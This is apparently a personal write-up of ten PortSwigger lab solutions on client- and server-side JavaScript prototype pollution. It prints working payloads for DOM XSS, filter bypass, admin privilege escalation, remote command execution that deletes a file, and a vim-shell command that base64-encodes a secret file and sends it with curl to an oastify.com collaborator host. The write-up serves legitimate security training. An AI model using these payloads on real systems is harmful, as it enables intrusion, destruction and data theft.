









# Portswigger Writeups

## Lab 1: Pollution via Browser APIs

This lab is vulnerable to DOM XSS. To solve the lab, add to `Object.prototype` to call the `alert()` function.

DOM Invader can be used for this to automatically search for possible vulnerabilities, but I prefer exploiting manually. 

This lab gives users a 'Submit feedback' and 'Search' functionalities.



When searching for stuff, it sends a POST request to a `/logger` endpoint:


Reading the page source shows a few files that have interesting stuff within them.


The `searchLogger` file had some interesting code:

```js
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
    Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

window.addEventListener("load", searchLogger);
```

It uses `Object.defineProperty` to define `transport_url`. There is an attempt to make it unmodifiable, but there's no value assigned to it. 

The `config` variable is a URL object using the browser's current location, and extracts the search parameters to convert them to a string. So the GET parameters (`/?`) is used. So the URL itself is the injection point.

I can try to add a property to the object. Using the parameters of `__proto__[test]=test` results in there being an added object:


This confirms the injection point, now I need to somehow call `alert(1)`. When reading the properties of `Object.defineProperty()`, I noticed there was a `value` property. This was used to define a value, and it was not defined for the `transport_url` object. Here's the code in the docs:



So using `__proto__[value]=test` might work, and it did load a `<script>` tag:


This makes sense considering the code does check for whether `transport_url` is defined before creating a new `script` element. It then sets `script.src` to the `transport_url` variable.

I checked the XSS cheatsheet to find a payload, and it worked:


The above XSS payload means I have to use:

```
/?__proto__[value]=data:text/javascript,alert(1)
```

## Lab 2: Client-Side --> DOM XSS

To solve this lab, call `alert()`. From the name of the lab, it is likely I have to pollute a prototype that is passed into a vulnerable sink.

Here's the `searchLogger()` function:

```js
async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};

    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }

    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

So this passes `config.transport_url` to a `script` element. The lab still uses an unsanitised `config.params` variable to run this script.

I can first pollute `transport_url` via `/?__proto__[transport_url]=foo`. This causes the `<script>` tag to be generated:


This is abusable in the same manner as Lab 1.

```
/?__proto__[transport_url]=data:text/javascript,alert(1)
```

## Lab 3: Another Client Side

This lab has the same thing, but it uses a different sink. Here's the `searchLogger()` function:

```js
async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}
```

There's an `eval` function called, and it has a bit of logic within it. This script creates a `manager` object attached to `window`, and the `manager` has a method called `macro`.

To get to `eval`, I can use `__proto__.sequence=alert(1)`, since it checks for the existence of the `sequence` object. 

This actually causes an error:


Using the browser Debugger, I can pause execution at the `eval` function to see what is being passed in. I noticed that the `manager.sequence` variable was changed to `alert(1)1`.



This is probably causing the errors with `eval`. To fix this, I can just append a `-`. Doing this will make the final payload `alert(1)-1`, which calls `alert(1)` and then subtracts 1.

The subtracting of 1 does not matter since the function is called.

## Lab 4: Flawed Sanitisation

To solve this lab, call `alert(1)`. Here's the `searchLogger()` function:

```js
async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
```

There is a sanitisation check, and keywords like `__proto__` aren't allowed. This uses `replaceAll`, which only **executes once AND does not stop the execution**. As such, using `__pro__proto__to__` works. The code strips away the middle `__proto__`, and then the rest of the string is combined to form `__proto__` (similar to using `....//`)

Here's the payload to solve the lab:

```
/?__pro__proto__to__[transport_url]=data:text/javascript,alert(1)
```

## Lab 5: Third-Party Library

This lab recommends I use DOM Invader, because the third-party library has minified code.

Here are the libraries used:


Firstly, the `jquery_ba_bbq.js` file is obviously the vulnerable one. When viewing it, it was made in 2010.



Next, there's a lot of mention of `hashchange`. In the `store.js` file, there's a `jquery` function:

```js
$(
    function()
    {
        $( window ).bind(
            'hashchange',
            function( e )
            {
                console.log('Hash Changed ' + location.hash);
                changeCategory( $.bbq.getState( 'cat' ) );
            }
        );

        $( window ).trigger( 'hashchange' );
    }
);
```

`location.hash` is the vulnerable property. That's as far as manual methods go, because I'm not gonna analyse those huge libraries. 

I enabled DOM Invader, and it instantly found two vulnerable sources:



I scanned for gadgets for `hash`, and it found a sink:


Here's the payload:

```
#constructor[prototype][hitCallback]=alert%281%29
```

Now, I just need to change the payload and deliver the exploit to the victim.

```html

```

## Lab 6: Server-side pollution --> Privilege Escalation

To solve this lab, delete `carlos` as the `administrator` user. I am given this 'Restart node application' function:


This is because server-side pollution can break the server. Anyways, when logged in, I see this change address option:



Submitting this form sends a POST request with JSON:



Note that the `isAdmin` variable has been set to `False`.

I can read the `updateAddress.js` file to find a vulnerable portion.

Here's the `handleSubmit` function:

```js
function handleSubmit(event) {
    event.preventDefault();

    const data = new FormData(event.target);

    const value = Object.fromEntries(data.entries());

    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4) {
            const responseJson = JSON.parse(this.responseText);
            const form = document.querySelector('form[name="change-address-form"');
            const formParent = form.parentElement;
            form.remove();
            const div = document.createElement("div");
            if (this.status == 200) {
                const header = document.createElement("h3");
                header.textContent = 'Updated Billing and Delivery Address';
                div.appendChild(header);
                formParent.appendChild(div);
                for (const [key, value] of Object.entries(responseJson).filter(e => e[0] !== 'isAdmin')) {
                    const label = document.createElement("label");
                    label.textContent = `${toLabel(key)}`;
                    div.appendChild(label);
                    const p = document.createElement("p");
                    p.textContent = `${JSON.stringify(value).replaceAll("\"", "")}`;
                    div.appendChild(p);
                }
            } else {
                const header = document.createElement("h3");
                header.textContent = 'Error';
                div.appendChild(header);
                formParent.appendChild(div);
                const p = document.createElement("p");
                p.textContent = `${JSON.stringify(responseJson.error && responseJson.error.message) || 'Unexpected error occurred.'} Please login again and retry.`;
                div.appendChild(p);
            }
        }
    };
    var form = event.currentTarget;
    xhr.open(form.method, form.action);
    xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
    xhr.send(JSON.stringify(value));
}
```

Quite long, but the most interesting part of this is the `isAdmin` check. Since this is JSON, I can just try to append a new variable within it for `__proto__`, since this uses `JSON.parse` without validating the data passed to it.

Here's a resource explaining it:



And here's the payload used:


Afterwards, the Admin panel is available:


## Lab 7: Server-side pollution without Polluted Property Reflection

To solve this lab, just exploit any form of prototype pollution. This lab is meant to teach methods to exploit pollution WITHOUT crashing the entire application BUT still causes a noticeable change.

So basically, I have to stealthily confirm whether pollution exists without changing anything in the website. I tried changing the `isAdmin` part, but it didn't solve the lab because technically that's destructive.

Within the code, the JSON is parsed with `this.responseText`, and then processed.

```js
const responseJson = JSON.parse(this.responseText);
const form = document.querySelector('form[name="change-address-form"');
const formParent = form.parentElement;
form.remove();
const div = document.createElement("div");
if (this.status == 200) {
```

`this.responseText` and `this.status` are both attached to the `this` object, which is the `xhr` object created.

As such, the `status` object can be manipulated, so to do this I entered an invalid JSON and changed the `status` variable to `444`:


This solves the lab, and demonstrates that it is possible to trigger a visible change WITHOUT causing any actual damage on the site.

## Lab 8: Bypass Input Filters

To solve this lab, delete `carlos` as the `administrator` user.

Attempting to use `__proto__` does not work:



Prototype pollution has multiple methods, and another way of doing it is through `constructor.prototype`. 

The JSON from Lab 6 worked because it probably parsed the JSON as `__proto__.isAdmin`. To do the same thing here, I used:

```json
"constructor":{
    "prototype":{
        "isAdmin":true
    }
}
```

This worked:


Afterwards, delete `carlos`.

## Lab 9: RCE via Prototype Pollution

To solve this lab, delete `/home/carlos/morale.txt`. Firstly, privilege escalation allows me to access the admin panel and 'Run jobs':


Clicking this reveals it does some stuff on the backend:


I injected a payload from Hacktricks:

```json
"__proto__": {
    "isAdmin":true,
    "NODE_OPTIONS": "--require /proc/self/environ", "env": { "
        EVIL":"console.log(require('child_process').execSync('rm /home/carlos/morale.txt').toString())//"}
    }
```

After injecting this and running the jobs, it solved the lab.

## Lab 10: Exfiltrating Data

This lab requires us to exfiltrate and submit the data within the `/home/carlos` directory. There's a file containing some flag, but I don't know the actual flag. This lab gives us administrative access with the run jobs admin panel.

This involves using Burp Collaborator to send the data out. I found that using `curl` can exfiltrate data:


So using this, I can execute a command to read `/home/carlos/secret`. I can chain commands together to find out the file directory as well:



However, I was struggling to make it work because for some reason, I could not use `NODE_OPTIONS` to run commands. While researching online, I came across the `shell` method:



However, I could not make it work. I ended up using the solution, and it used `vim`...? I would have never thought of that.

Basically, `vim` can run terminal commands and what not, and this is done via `! <COMMAND>`.

```json
"__proto__": {
    "shell":"vim",
    "input":":! ls /home/carlos > file.txt; curl -X POST @file.txt tifhtpgg5onmoda4quc9lp6ii9o0cy0n.oastify.com\n"
}
```

The above works in triggering a DNS lookup, but it does not send the data. The solution uses `base64` and `@-` for stdin to send the data over.

The solution's payload is :

```json
"__proto__": {
    "shell":"vim",
    "input":":! cat /home/carlos/secret | base64 | curl -d @- https://jtg74fr6geycz3lu1knzwfh8tzzqnhe53.oastify.com\n"
}
```

This would cause the data to be sent over:


Submitting that solves the lab, and I suppose this lab forces us to use `vim` since Portswigger Academy covers it. 